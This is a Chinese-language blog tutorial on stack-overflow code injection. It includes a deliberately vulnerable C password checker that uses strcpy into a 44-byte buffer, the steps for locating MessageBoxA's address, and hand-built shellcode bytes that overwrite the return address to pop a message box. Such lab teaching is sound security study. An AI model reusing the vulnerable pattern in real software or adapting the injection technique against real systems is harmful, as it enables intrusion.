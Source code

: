 ```yaml
---
layout:     post
title:      0day漏洞学习（三）：栈溢出漏洞注入代码
subtitle:   利用栈溢出植入想要执行的代码。
date:       2021-04-010
author:     Hongtai S
header-img: img/post-bg-hacker.jpg
catalog: true
tags:
    - 漏洞
    - 二进制
    - 代码注入
---
```


# 理论分析 #
上一节中通过栈溢出漏洞成功利用字符串截断符0x00将authenticated变量覆盖，修改判断条件并通过密码验证，但是实际上像"anthenticated"这种变量并不多见，真正能够引起黑客注意的是下一地址的“返回地址”，当函数执行结束后，程序执行流会跳转到返回地址，并继续执行，当我们覆盖返回地址时，岂不是将函数返回到任何我们想要的地址。而恰好我们将想要执行的机器指令写入栈，将返回地址覆盖为指令的起始地址，这样程序就会执行我们写入的命令。原理如下图：

![原理图.PNG](https://i.loli.net/2021/04/10/g3zLQVBOJWA6j94.png)

# 实验 #

实验代码如下
代码中多了windows.h库，为了方便程序顺利调用LoadLibrary()装载user32.dll；
buffer字符串扩充为44个字符，为了方便装入注入的代码；
LoadLibrary("user32.dll")用于初始化装载user32.dll，以便在植入代、码中调用 MessageBox。

```cpp,c

#include <stdio.h>
#include <string.h>
#include <windows.h> 
#define PASSWORD "1234567" 
int verify_password (char *password) 
{ 
    int authenticated; 
    char buffer[44]; 
    authenticated=strcmp(password,PASSWORD); 
    strcpy(buffer,password); 
    return authenticated; 
} 
main() 
{ 
    int valid_flag=0; 
    char password[1024]; 
    FILE * fp; 
    LoadLibrary("user32.dll");
    if(!(fp=fopen("password.txt","rw+"))) 
    { 
        exit(0); 
    } 
    fscanf(fp,"%s",password); 
    valid_flag = verify_password(password); 
    if(valid_flag) 
    { 
        printf("incorrect password!\n"); 
    } 
    else 
    { 
        printf("Congratulation! You have passed the verification!\n"); 
    } 
    fclose(fp); 
} 

```

首先创建password.txt，写入14个“4321”，用ollydby调试观察内存栈情况：

![栈状态.PNG](https://i.loli.net/2021/04/10/Ru1hxH42pQMJZmi.png)

4321可成功淹没返回地址，shellcode的初始地址为0x0012FAF0

编辑shellcode：
注入的代码主要功能是弹出对话框，需要调用MessageBoxA()函数，因此需要先获取MessageBoxA的入口地址，用Depency Walker随便打开一个有GUI元素的进程，找到user32.dll的装载基址，并找到MessageBoxA()函数的入口点：

![dependency.PNG](https://i.loli.net/2021/04/10/mJS54kIiDxltb6Y.png)

得到装载基址和入口点分别为0x77D10000和0x0004050B，
因此函数在内存中的地址为0x77D10000+0x0004050B = 0x77D5050B

得到shellcode：
\x33\xDB\x53\x66\x77\x65\x73\x74
\x68\x66\x61\x69\x6C\x8B\xC4\x53
\x53\x50\x50\x53\xB8\x0B\x05\xD5
\x77\xFF\xD0\x90\x90\x90\x90\x90
\x90\x90\x90\x90\x90\x90\x90\x90
\x90\x90\x90\x90\x90\x90\x90\x99
\x9D\x90\x90\x90\x90\xF0\xFA\x12
\x00

执行程序：

![success.PNG](https://i.loli.net/2021/04/10/yHJxCbgBsZdv1tq.png)

成功注入！